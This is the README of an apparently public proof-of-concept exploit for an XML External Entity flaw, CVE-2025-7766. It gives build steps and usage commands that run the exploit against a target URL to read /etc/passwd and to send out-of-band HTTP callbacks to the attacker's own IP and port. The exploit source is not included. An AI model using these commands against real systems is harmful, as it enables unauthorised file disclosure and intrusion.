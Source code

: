 # CVE-2025-7766 PoC Exploit

PoC for exploiting XML External Entity vulnerability in CVE-2025-7766. Demonstrates file read (/etc/passwd) and out-of-band HTTP callbacks.

**Author**: Byte Reaper

**Telegram**: @ByteReaper0

**CVE**: CVE-2025-7766

**Vulnerability**: Remote Code Execution via XML External Entity (XXE)

---

## PoC for exploiting XXE in CVE-2025-7766. Demonstrates:

* Reading `/etc/passwd` from the target.
* Triggering out-of-band HTTP request to your server.

## Requirements

* gcc
* libcurl
* argparse library

## Build

```
gcc -o exploit exploit.c argparse.c -lcurl
```

## Usage

```
# Read file payload
./exploit -u http://target/xml -i YOUR_IP -p YOUR_PORT

# Out-of-band request payload
./exploit -u http://target/xml -i YOUR_IP -p YOUR_PORT -r

# Custom payload
./exploit -u http://target/xml -i YOUR_IP -p YOUR_PORT -b '<YOUR_CUSTOM_XML>'

# Repeat requests 5 times
./exploit -u http://target/xml -i YOUR_IP -p YOUR_PORT -r -l 5

# Verbose output
./exploit -u http://target/xml -i YOUR_IP -p YOUR_PORT -v
```

## LICENSE:
MIT 

